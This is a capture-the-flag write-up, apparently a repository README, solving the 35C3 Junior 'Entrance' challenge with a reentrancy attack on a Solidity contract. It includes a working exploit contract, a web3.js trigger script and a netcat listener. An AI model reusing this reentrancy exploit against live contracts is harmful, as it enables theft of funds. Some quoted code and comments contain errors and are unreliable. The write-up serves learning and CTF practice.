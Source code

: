 # ctf-Entrance

Link to challenge: https://junior.35c3ctf.ccc.ac/challenges/ > Of Course >
Entrance.

### Introduction

This repository is the solution to the Junior 35C3CTF Entrance, a Solidity
reentrancy attack. The expl0it is a simple recursion based on the
`msg.sender.call` statement contained in the vulnerable contract.

### The Attack

Right from the get go, when looking at the contract code, one can see that
there is a `getFlag` method in the vulnerable contract. To call it, a player
needs a balance of >= 300.

```
  function getFlag(string memory _server, string memory _port) public {
    require (balances[msg.sender] > 300, "flag");
    emit EntranceFlag(_server, _port);
  }
```

An event is emitted with a `server` and `port` string. Our initial assumption
was that when the event is triggered by someone on the ropsten contract, a
server from the CTF team is listening for these events and will send back the
flag to a listening server the player has to setup.

But first, let's enter the game. To do that a player needs to call a method
called `enter(uint256 _pin)` on the the entrance.sol contract. A pin is needed
and wasn't specified in any of the hints. It's however easy to find in the data
of the [contract creation
transaction](https://ropsten.etherscan.io/address/0x1898Ed72826BEfa2D549004C57F048A95ae0B982#code).

```
  modifier legit(uint256 _pin) {
    if (_pin == pin, "bye") _;
  }

  function enter(uint256 _pin) public legit(_pin) {
    balances[msg.sender] = 10;
    has_played[msg.sender] = false;
  }
```

As we can call `getFlag` only with a balance of 300, we have to gamble with a
function called `gamble()`. Unfortunately, this function only adds 10 to the
player's balance and then doesn't allow the player to play again as
`has_played` is then set to `true`.


```
  modifier onlyNewPlayer {
    require(has_played[msg.sender] == false, "hello");
    _;
  }

  function gamble() public onlyNewPlayer {
    require (balances[msg.sender] >= 10, "gamble");
    if ((block.number).mod(7) == 0) {
      balances[msg.sender] = balances[msg.sender].add(10);
      balance = balances[msg.sender];
      // Tell the sender he won!
      msg.sender.call("You won!");
      has_played[msg.sender] = true;
    } else {
      balances[msg.sender] = balances[msg.sender].sub(10);
    }
  }

```

We can also see that one can only successfully gamble when the `block.number`
is divisible by 7, as otherwise funds are subtracted from the balance of the
player.

With this in mind we were quite confused at first what to do and re-read the
description of the challenge again:

```
Can you enter? Again?
```

So the question is: Can we enter `gamble` again. Turns out we can.  In fact, if
the `msg.sender.call` function doesn't call a valid function, [it defaults to a
so called
fallback-function](https://ethereum.stackexchange.com/questions/42521/what-does-msg-sender-call-do-in-solidity/42585#42585)
that can be defined in a calling contract.

With knowing this, we made the following plan:

- Create a smart contract that has a function `enter` that calls `entrance.enter`
with the given pin `0xbc4f77`
- Check if the current `block.number` is divisible by 7 and if so call `gamble`
- Define a fallback function in our exploit contract that checks if the balance
is less than 300 and if so, call `gamble` again.

After a lot of back and forth and some quite fun but also frustrating hours, we
arrived at the following code:

```
pragma solidity >=0.4.21 <0.6.0;

import "./entrance.sol";
import "./SafeMath.sol";

contract EnterAgain {
    using SafeMath for *;

    uint256 counter = 0;
    address a;

    constructor(address _a) {
        a = _a;
    }

    function enter() {
        uint b = block.number;
        require((b).mod(7) == 0, "wrong block number");
        Entrance entrance = Entrance(a);
        entrance.enter(0xbc4f77);
        entrance.gamble();
        entrance.getFlag("34.254.178.181", "8080");
    }

    function() {
        Entrance entrance = Entrance(a);
        if(entrance.balances(this) <= 300) {
            entrance.gamble();
        }
    }
}
```

In the constructor, we set the address `a` of the vulnerable contract.  In
`enter`, we call `block.number` and check if it's divisible by 7. We then
instanciate the vulnerable contract, call `enter` and `gamble`. We run through
the gambling game by continously falling back to our fallback-function
`function()` to ultimately stop, and call `getFlag`. After the transaction is
confirmed, our netcat server was answered with the flag.

### Setting up the netcat server
We also need a TCP server listening somewhere from a public IP.
That part was super simple, we just run:
```
$ nc -lk 8080
```
in a machine with a public IP and left it there, logging.

### Running the exploit
After deploying the smart contract containing the exploit in the Ropsten network, we wrote a script in nodejs to trigger the execution of our exploit.

The script is in JavaScript and run on nodejs. It uses the [web3.js](https://web3js.readthedocs.io/) library:
```
(async function pwn() {
  var privateKey = "...";
  var publicKey = "...";
  var wallet = new SimpleWallet(
    privateKey,
    publicKey,
    'https://ropsten.infura.io');

  var contract = await wallet.loadContract('EnterAgain');
  var blockNumber = await wallet.web3.eth.getBlockNumber();
  console.log(blockNumber, blockNumber % 7);
  if (blockNumber % 7 !== 6) {
    return;
  }
  await wallet.send(contract.methods.enter());
})();
```

After initializing a provider, we load the `EnterAgain` contract that we compiled on our machine, and ask for the current block number modulo `7` is `6`. Note that the only way win in the `gamble` method is when `blockNumber % 7 === 0`. When the EVM runs the smart contract, `blockNumber` evaluates to the block number that is currently being created. To run our exploit at a specific `blockNumber`, we can try to send the transaction at `blockNumber - 1`, and hope that the transaction will be included in the next block.

#### A note on `estimateGas`
We developed the exploit using a local `ganache-cli` node for testing.
We spent several hours figuring out why our transaction failed, even if the logic was correct. It seems that `ganache-cli` doesn't give you a clear message if your transaction runs out of gas. After moving to Ropsten, we got a clear message: "gas required exceeds allowance or always failing transaction".

Note that we used as `gasLimit` the result of `estimateGas`. After the error on Ropsted, we decided to hardcode a large amount of gas (900000) and the transaction went through successfully.

```
    const rawTx = {
      from: this.address,
      to: method._parent.options.address,
      nonce: this.web3.utils.toHex(count),
      gasPrice: this.web3.utils.toHex(this.web3.utils.toWei("21", "gwei")),
      gasLimit: this.web3.utils.toHex(
        //await method.estimateGas({from: this.address}),
        900000
      ),
      data: data,
    };
```

Basically, what `estimateGas` does is to take the transaction, execute it against the current state of the blockchain, measure the amount of gas used and return it. `estimateGas` is basically a dry run of the transaction, and it happens right before submitting the transaction to the network. We send our transaction when `blockNumber % 7 === 6`, so it can be executed when `blockNumber % 7 === 0`. Hence, `estimateGas` ran `gamble` on the wrong `blockNumber` without triggering the exploit, giving us a wrong estimation of the gas needed.


### Installation

```
$ npm i
$ truffle migrate --network ropsten
$ node enter.js
# Run it until your transaction gets included into a block that is divisible by
# 7. Usually this is the case if the current block is divisible by 6.
```

We included several private keys here from a ropsten address. Potentially these
have to be changed or refilled with ether to run the expl0it.


### Tips

- Modify all require statements with a second argument string to know where the
  contract reverts. Additionally, change all `if`s to require with a second
  argument string so that you can debug them better.
- Always debug locally with Ganache and Truffle. It's so much easier than
  deploying live. There is additionally `truffle debug <tx id>` which can be
  very helpful for debugging a transaction step by step.
- If stuck, remove checks from the vulnerable contract to get your script
  passing.  It will really accelerate your workflow.
- Remember that the game can only be played once. So once you call gamble, you
always have to re-deploy your contract.

